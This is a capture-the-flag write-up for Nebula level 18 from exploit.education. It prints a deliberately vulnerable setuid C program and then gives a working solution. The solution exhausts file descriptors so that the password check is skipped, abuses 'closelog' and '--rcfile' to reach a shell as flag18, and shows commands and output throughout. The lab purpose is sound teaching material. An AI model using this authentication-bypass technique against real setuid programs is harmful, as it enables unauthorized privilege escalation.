

# Nebula - [LEVEL 18](https://exploit.education/nebula/level-18/)

Level Description:



```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>
#include <fcntl.h>
#include <getopt.h>

struct {
  FILE *debugfile;
  int verbose;
  int loggedin;
} globals;

#define dprintf(...) if(globals.debugfile) \
  fprintf(globals.debugfile, __VA_ARGS__)
#define dvprintf(num, ...) if(globals.debugfile && globals.verbose >= num) \
  fprintf(globals.debugfile, __VA_ARGS__)

#define PWFILE "/home/flag18/password"

void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
      fp == NULL ? "out" : "");
  
  globals.loggedin = 1;

}

void notsupported(char *what)
{
  char *buffer = NULL;
  asprintf(&buffer, "--> [%s] is unsupported at this current time.\n", what);
  dprintf(what);
  free(buffer);
}

void setuser(char *user)
{
  char msg[128];

  sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);
  printf("%s\n", msg);

}

int main(int argc, char **argv, char **envp)
{
  char c;

  while((c = getopt(argc, argv, "d:v")) != -1) {
      switch(c) {
          case 'd':
              globals.debugfile = fopen(optarg, "w+");
              if(globals.debugfile == NULL) err(1, "Unable to open %s", optarg);
              setvbuf(globals.debugfile, NULL, _IONBF, 0);
              break;
          case 'v':
              globals.verbose++;
              break;
      }
  }

  dprintf("Starting up. Verbose level = %d\n", globals.verbose);

  setresgid(getegid(), getegid(), getegid());
  setresuid(geteuid(), geteuid(), geteuid());
  
  while(1) {
      char line[256];
      char *p, *q;

      q = fgets(line, sizeof(line)-1, stdin);
      if(q == NULL) break;
      p = strchr(line, '\n'); if(p) *p = 0;
      p = strchr(line, '\r'); if(p) *p = 0;

      dvprintf(2, "got [%s] as input\n", line);

      if(strncmp(line, "login", 5) == 0) {
          dvprintf(3, "attempting to login\n");
          login(line + 6);
      } else if(strncmp(line, "logout", 6) == 0) {
          globals.loggedin = 0;
      } else if(strncmp(line, "shell", 5) == 0) {
          dvprintf(3, "attempting to start shell\n");
          if(globals.loggedin) {
              execve("/bin/sh", argv, envp);
              err(1, "unable to execve");
          }
          dprintf("Permission denied\n");
      } else if(strncmp(line, "logout", 4) == 0) {
          globals.loggedin = 0;
      } else if(strncmp(line, "closelog", 8) == 0) {
          if(globals.debugfile) fclose(globals.debugfile);
          globals.debugfile = NULL;
      } else if(strncmp(line, "site exec", 9) == 0) {
          notsupported(line + 10);
      } else if(strncmp(line, "setuser", 7) == 0) {
          setuser(line + 8);
      }
  }

  return 0;
}
```

# Nebula - [LEVEL 18](https://exploit.education/nebula/level-18/) - Solution

Let's observe the ```login``` function:
```c
void login(char *pw)
{
  FILE *fp;

  fp = fopen(PWFILE, "r");
  if(fp) {
      char file[64];

      if(fgets(file, sizeof(file) - 1, fp) == NULL) {
          dprintf("Unable to read password file %s\n", PWFILE);
          return;
      }
                fclose(fp);
      if(strcmp(pw, file) != 0) return;       
  }
  dprintf("logged in successfully (with%s password file)\n",
      fp == NULL ? "out" : "");
  
  globals.loggedin = 1;

}
```

As we can see, If the binary failed to open the password file it will log us in any way.

Let's observe the ```ulimit``` by running ```ulimit -a``` (Or ```ulimit -n``` to get the open files):
```console
level18@nebula:/tmp$ ulimit -a
core file size          (blocks, -c) 0
data seg size           (kbytes, -d) unlimited
scheduling priority             (-e) 0
file size               (blocks, -f) unlimited
pending signals                 (-i) 7885
max locked memory       (kbytes, -l) 64
max memory size         (kbytes, -m) unlimited
open files                      (-n) 1024
pipe size            (512 bytes, -p) 8
POSIX message queues     (bytes, -q) 819200
real-time priority              (-r) 0
stack size              (kbytes, -s) 8192
cpu time               (seconds, -t) unlimited
max user processes              (-u) 7885
virtual memory          (kbytes, -v) unlimited
file locks                      (-x) unlimited
level18@nebula:/tmp$ ulimit -n
1024
```

So we have the limit of maximum ```1024``` open files (As remember, the binary "open" 3 files for stdout, stdin and stderr).

So we need to run the program a lot of times to bypass the ```if``` statment on ```login``` function, We can do it by the open 1021 files (take all 1024) by the command ```login```, Close one of them by the command ```closelog``` and run ```shell``` command:
```console
level18@nebula:/tmp$ python -c 'print("login foo\n"*1021)' > input
level18@nebula:/tmp$ python -c 'print("closelog")' >> input
level18@nebula:/tmp$ python -c 'print("shell")' >> input
level18@nebula:/tmp$ cat input | /home/flag18/flag18 -d /dev/tty
Starting up. Verbose level = 0
logged in successfully (without password file)
/home/flag18/flag18: -d: invalid option
Usage:  /home/flag18/flag18 [GNU long option] [option] ...
        /home/flag18/flag18 [GNU long option] [option] script-file ...
GNU long options:
        --debug
        --debugger
        --dump-po-strings
        --dump-strings
        --help
        --init-file
        --login
        --noediting
        --noprofile
        --norc
        --posix
        --protected
        --rcfile
        --restricted
        --verbose
        --version
Shell options:
        -irsD or -c command or -O shopt_option          (invocation only)
        -abefhkmnptuvxBCHP or -o option
```
But as we can see it's failed because ```-d: invalid option```, We can solve it by the following:
```console
 --rcfile file
              Execute  commands from file instead of the system wide initialization file /etc/bash.bashrc and the standard
              personal initialization file ~/.bashrc if the shell is interactive (see INVOCATION below).
```

So let's add this flag:
```console
level18@nebula:/tmp$ python -c 'print("login foo\n"*1021)' > input
level18@nebula:/tmp$ python -c 'print("closelog")' >> input
level18@nebula:/tmp$ python -c 'print("shell")' >> input
level18@nebula:/tmp$ cat input | /home/flag18/flag18 -d /dev/tty
level18@nebula:/tmp$ cat input | /home/flag18/flag18 --rcfile -d /dev/tty
/home/flag18/flag18: invalid option -- '-'
/home/flag18/flag18: invalid option -- 'r'
/home/flag18/flag18: invalid option -- 'c'
/home/flag18/flag18: invalid option -- 'f'
/home/flag18/flag18: invalid option -- 'i'
/home/flag18/flag18: invalid option -- 'l'
/home/flag18/flag18: invalid option -- 'e'
Starting up. Verbose level = 0
logged in successfully (without password file)
whoami
flag18
getflag
You have successfully executed getflag on a target account
```
